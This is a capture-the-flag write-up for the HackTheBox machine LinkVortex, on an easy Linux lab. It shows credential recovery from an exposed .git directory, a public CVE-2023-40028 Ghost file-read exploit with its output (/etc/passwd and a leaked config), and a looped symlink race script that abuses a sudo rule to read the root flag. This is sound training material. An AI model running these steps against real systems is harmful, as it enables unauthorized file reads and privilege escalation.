



# LinkVortex — Writeup

> Platform: HackTheBox · Difficulty: **Easy** · OS: **Linux**
> Target: `10.129.193.249` (`linkvortex.htb`)
> Ref: [app.hackthebox.com/machines/LinkVortex](https://app.hackthebox.com/machines/LinkVortex)

## Summary

LinkVortex is an Easy Linux box built around abusable symbolic links. Port 80 redirects to `linkvortex.htb`; vhost discovery surfaces `dev.linkvortex.htb`, which exposes a `.git` directory. Dumping that repo and reviewing the staged (not yet committed) diff yields Ghost CMS credentials. The running Ghost is **5.58.0**, vulnerable to **CVE-2023-40028** — an authenticated symlink-upload arbitrary file read inside the Ghost container. Reading the production config leaks SMTP credentials for `bob@linkvortex.htb`, which reuse as SSH access on the host.

As `bob`, `sudo -l` allows `NOPASSWD` execution of `/usr/bin/bash /opt/ghost/clean_symlink.sh *.png`. That script has a **TOCTOU** race: it checks the symlink target, moves the link into quarantine, then optionally `cat`s it when `CHECK_CONTENT=true`. Flipping the symlink target between a harmless path and `/root/root.txt` across the check/use window prints the root flag. The main time-sinks were fumbling vhost enum, overlooking staged git changes, and staring at the CVE file-read shell without checking the dumped Dockerfile for the config path.

---

## Recon

### Port scanning

**rustscan**

```bash
rustscan -a "$IP_ADDRESS" -ulimit 5000 -- -sC -sV -oA "nmap/quick"
```

**nmap**

```bash
nmap -sC -sV -p- -oA "nmap/full" "$IP_ADDRESS"


# Nmap 7.94SVN scan initiated Wed Feb  4 03:41:37 2026 as: nmap -sC -sV -oA ./nmap/quick.nmap 10.129.193.249
Nmap scan report for 10.129.193.249
Host is up (0.0060s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:f8:b9:68:c8:eb:57:0f:cb:0b:47:b9:86:50:83:eb (ECDSA)
|_  256 a2:ea:6e:e1:b6:d7:e7:c5:86:69:ce:ba:05:9e:38:13 (ED25519)
80/tcp open  http    Apache httpd
|_http-server-header: Apache
|_http-title: Did not follow redirect to http://linkvortex.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Feb  4 03:41:43 2026 -- 1 IP address (1 host up) scanned in 6.76 seconds
```

Two services: SSH and Apache. The redirect to `http://linkvortex.htb/` means the hostname goes in `/etc/hosts` before further web enum. Vhost discovery is next.

### Enumeration

#### Ghost CMS (`linkvortex.htb`)

`robots.txt` points at the Ghost admin UI at `http://linkvortex.htb/ghost`. Digging further turns up `/author/admin` — suggesting `admin` as a username — but nothing useful without credentials.

#### `dev.linkvortex.htb`

Vhost enum finds `dev.linkvortex.htb`, a separate dev page:


The page description calls out an exposed `/.git`. Dumping it with `git-dumper` lands a working tree that looks empty of secrets at first glance — the interesting material is in the staged changes, not the checkout.

---

## Stage 1: Exposed `.git` → Ghost admin credentials

```bash
mkdir src && git-dumper 'http://dev.linkvortex.htb/.git' ./src
```

`git status` on the dump shows staged but uncommitted changes:

```bash
[julien@parrot src]$ git status
Not currently on any branch.
Changes to be committed:
  (use "git restore --staged <file>..." to unstage)
        new file:   Dockerfile.ghost
        modified:   ghost/core/test/regression/api/admin/authentication.test.js
```

`git diff --cached HEAD` surfaces a password change in the authentication test, and a Dockerfile pinning Ghost **5.58.0**:

```bash
diff --git a/Dockerfile.ghost b/Dockerfile.ghost
new file mode 100644
index 0000000..50864e0
--- /dev/null
+++ b/Dockerfile.ghost
@@ -0,0 +1,16 @@
+FROM ghost:5.58.0
+
+# Copy the config
+COPY config.production.json /var/lib/ghost/config.production.json
+
+# Prevent installing packages
+RUN rm -rf /var/lib/apt/lists/* /etc/apt/sources.list* /usr/bin/apt-get /usr/bin/apt /usr/bin/dpkg /usr/sbin/dpkg /usr/bin/dpkg-deb /usr/sbin/dpkg-deb
+
+# Wait for the db to be ready first
+COPY wait-for-it.sh /var/lib/ghost/wait-for-it.sh
+COPY entry.sh /entry.sh
+RUN chmod +x /var/lib/ghost/wait-for-it.sh
+RUN chmod +x /entry.sh
+
+ENTRYPOINT ["/entry.sh"]
+CMD ["node", "current/index.js"]
diff --git a/ghost/core/test/regression/api/admin/authentication.test.js b/ghost/core/test/regression/api/admin/authentication.test.js
index 2735588..e654b0e 100644
--- a/ghost/core/test/regression/api/admin/authentication.test.js
+++ b/ghost/core/test/regression/api/admin/authentication.test.js
@@ -53,7 +53,7 @@ describe('Authentication API', function () {
 
         it('complete setup', async function () {
             const email = 'test@example.com';
-            const password = 'thisissupersafe';
+            const password = 'OctopiFociPilfer45';
 
             const requestMock = nock('https://api.github.com')
                 .get('/repos/tryghost/dawn/zipball')
```



Ghost admin accepts `admin@linkvortex.htb` / `OctopiFociPilfer45`. The Dockerfile also tells us the production config lands at `/var/lib/ghost/config.production.json` inside the container — useful for the next stage.

Stage result: authenticated Ghost admin session; Ghost version **5.58.0**.

---

## Stage 2: CVE-2023-40028 → config read → SSH as bob

Ghost 5.58.0 is vulnerable to [CVE-2023-40028](https://github.com/0xDTC/Ghost-5.58-Arbitrary-File-Read-CVE-2023-40028) (authenticated symlink upload → arbitrary file read in the container). Running the public exploit with the recovered admin creds:

```bash
[julien@parrot Ghost-5.58-Arbitrary-File-Read-CVE-2023-40028]$ ./CVE-2023-40028 -u admin@linkvortex.htb -p OctopiFociPilfer45 -h 'http:
//linkvortex.htb'
WELCOME TO THE CVE-2023-40028 SHELL
Enter the file path to read (or type 'exit' to quit): /etc/passwd
File content:
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
node:x:1000:1000::/home/node:/bin/bash
Enter the file path to read (or type 'exit' to quit): /proc/self/cwd/.env
File content:
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Error</title>
</head>
<body>
<pre>Not Found</pre>
</body>
</html>
Enter the file path to read (or type 'exit' to quit): /etc/hosts
File content:
127.0.0.1       localhost
::1     localhost ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
172.20.0.2      9e145d447152
Enter the file path to read (or type 'exit' to quit): /proc/self/environ
File content:
Enter the file path to read (or type 'exit' to quit): /etc/os-release
File content:
PRETTY_NAME="Debian GNU/Linux 11 (bullseye)"
NAME="Debian GNU/Linux"
VERSION_ID="11"
VERSION="11 (bullseye)"
VERSION_CODENAME=bullseye
ID=debian
HOME_URL="https://www.debian.org/"
SUPPORT_URL="https://www.debian.org/support"
BUG_REPORT_URL="https://bugs.debian.org/"
Enter the file path to read (or type 'exit' to quit):
```

### Dead end: blind file reads without a target path

`/etc/passwd` confirms a containerised Debian host (`node` user, docker-style hostname in `/etc/hosts`). `/proc/self/cwd/.env` and `/proc/self/environ` return nothing useful. Without a concrete path from the dumped source, the file-read shell is a dead end — the Dockerfile already named the config.

Reading `/var/lib/ghost/config.production.json` (path from `Dockerfile.ghost`) returns:

```json
{
  "url": "http://localhost:2368",
  "server": {
    "port": 2368,
    "host": "::"
  },
  "mail": {
    "transport": "Direct"
  },
  "logging": {
    "transports": ["stdout"]
  },
  "process": "systemd",
  "paths": {
    "contentPath": "/var/lib/ghost/content"
  },
  "spam": {
    "user_login": {
      "minWait": 1,
      "maxWait": 604800000,
      "freeRetries": 5000
    }
  },
  "mail": {
    "transport": "SMTP",
    "options": {
      "service": "Google",
      "host": "linkvortex.htb",
      "port": 587,
      "auth": {
        "user": "bob@linkvortex.htb",
        "pass": "fibber-talented-worth"
      }
    }
  }
}
```

```txt
"user": "bob@linkvortex.htb",
"pass": "fibber-talented-worth"
```

Those SMTP credentials reuse over SSH as `bob` / `fibber-talented-worth`:





Stage result: SSH session as `bob`. <!-- TODO: user flag value was not captured in the draft -->

---

## Stage 3: clean_symlink.sh TOCTOU → root

`sudo -l` as bob:

```bash
bob@linkvortex:~$ sudo -l
Matching Defaults entries for bob on linkvortex:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty, env_keep+=CHECK_CONTENT

User bob may run the following commands on linkvortex:
    (ALL) NOPASSWD: /usr/bin/bash /opt/ghost/clean_symlink.sh *.png
```

The allowed script:

```bash
#!/bin/bash

QUAR_DIR="/var/quarantined"

if [ -z $CHECK_CONTENT ];then
  CHECK_CONTENT=false
fi

LINK=$1

if ! [[ "$LINK" =~ \.png$ ]]; then
  /usr/bin/echo "! First argument must be a png file !"
  exit 2
fi

if /usr/bin/sudo /usr/bin/test -L $LINK;then
  LINK_NAME=$(/usr/bin/basename $LINK)
  LINK_TARGET=$(/usr/bin/readlink $LINK)
  if /usr/bin/echo "$LINK_TARGET" | /usr/bin/grep -Eq '(etc|root)';then
    /usr/bin/echo "! Trying to read critical files, removing link [ $LINK ] !"
    /usr/bin/unlink $LINK
  else
    /usr/bin/echo "Link found [ $LINK ] , moving it to quarantine"
    /usr/bin/mv $LINK $QUAR_DIR/
    if $CHECK_CONTENT;then
      /usr/bin/echo "Content:"
      /usr/bin/cat $QUAR_DIR/$LINK_NAME 2>/dev/null
    fi
  fi
fi
```

`env_keep+=CHECK_CONTENT` means the `CHECK_CONTENT` variable survives into the sudo invocation. When it is `true`, the script `cat`s the quarantined link after moving it. The security check is a `readlink` + `grep` for `etc|root` on the target — but between that check and the later `cat`, the symlink target can change. That is a classic TOCTOU race.

Exploit with two terminals: one flips the symlink between a harmless file and `/root/root.txt`; the other loops the sudo script with `CHECK_CONTENT=true`:

```bash
# Terminal 1: Loop creating and switching the symlink
while true; do
  ln -sf /tmp/harmless.txt ./exploit.png
  ln -sf /root/root.txt ./exploit.png
done

# Terminal 2: Loop running the script
while true; do
  CHECK_CONTENT=true sudo /opt/ghost/clean_symlink.sh ./exploit.png
done


while true; do
  CHECK_CONTENT=true sudo /usr/bin/bash /opt/ghost/clean_symlink.sh *.png
done
```

When the race hits — check sees the harmless target, then the link flips to `/root/root.txt` before `cat` — the root flag prints:

```bash
User bob may run the following commands on linkvortex:
    (ALL) NOPASSWD: /usr/bin/bash /opt/ghost/clean_symlink.sh *.png
bob@linkvortex:~$ while true; do
  CHECK_CONTENT=true sudo /usr/bin/bash /opt/ghost/clean_symlink.sh *.png
done
Link found [ exploit.png ] , moving it to quarantine
Content:
da7603fea754840d5d354b2e0495c723
! Trying to read critical files, removing link [ exploit.png ] !
Link found [ *.png ] , moving it to quarantine
Content:
try again
! Trying to read critical files, removing link [ exploit.png ] !
! Trying to read critical files, removing link [ exploit.png ] !
! Trying to read critical files, removing link [ exploit.png ] !
Link found [ *.png ] , moving it to quarantine
Content:
da7603fea754840d5d354b2e0495c723
Link found [ exploit.png ] , moving it to quarantine
Content:
da7603fea754840d5d354b2e0495c723
! Trying to read critical files, removing link [ exploit.png ] !
Link found [ exploit.png ] , moving it to quarantine
Content:
try again
Link found [ exploit.png ] , moving it to quarantine
Content:
try again
! Trying to read critical files, removing link [ exploit.png ] !
! Trying to read critical files, removing link [ *.png ] !
Link found [ exploit.png ] , moving it to quarantine
Content:
try again
! Trying to read critical files, removing link [ exploit.png ] !
! Trying to read critical files, removing link [ exploit.png ] !
Link found [ *.png ] , moving it to quarantine
Content:
try again
^C
bob@linkvortex:~$
```

---

## Credentials

**`git diff --cached` (auth test)** — `admin@linkvortex.htb:OctopiFociPilfer45`
Ghost admin.

**Ghost `config.production.json` (CVE-2023-40028)** — `bob@linkvortex.htb:fibber-talented-worth`
SMTP auth; reuses for SSH as `bob`.

---

## Key lessons

- **Vhost enum is not optional.** An early ffuf miss delayed `dev.linkvortex.htb`. Prefer a known-good invocation:
  ```bash
  ffuf -u 'http://<TARGET>' -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt
  ```
- **Dumped `.git` ≠ working tree only.** Secrets lived in staged, uncommitted changes (`git status` / `git diff --cached`), not in the checked-out files. After `git-dumper`, inspect the index.
- **When you have source and a file-read primitive, read the paths the source names.** The Dockerfile already pointed at `/var/lib/ghost/config.production.json`; blind `/etc/passwd` / `.env` probes wasted time. HTB Guided Mode is not a substitute for reading the material already on disk.
- **`env_keep` + check-then-use on a symlink is a TOCTOU.** `CHECK_CONTENT=true` enables the `cat`; racing the target past the `etc|root` grep is enough to leak `/root/root.txt`.

### What went right

- Checklist habit paid off — `robots.txt` immediately surfaced `/ghost`.
- Conceptual path was sound (git dump → CVE file read → sudo symlink race); the delays were execution details, not missing ideas. Finished in about 4h30m (02:00–06:30).

---

## Tools & cheat sheet

- [`rustscan`](/hacklas/enumeration/port-scan/rustscan.md) / [`nmap`](/hacklas/enumeration/port-scan/nmap.md) — Port / service discovery
- [`ffuf`](/hacklas/enumeration/ffuf.md) / **gobuster** — Vhost discovery (`dev.linkvortex.htb`)
- [`git-dumper`](/hacklas/enumeration/git.md) — Dump exposed `.git` on dev vhost
- [`git diff --cached`](/hacklas/enumeration/git.md) — Recover staged password / Dockerfile
- **CVE-2023-40028 exploit** — Authenticated Ghost arbitrary file read
- [`sudo` + `clean_symlink.sh`](/hacklas/escalation/linux/sudo.md) — TOCTOU symlink race → root flag
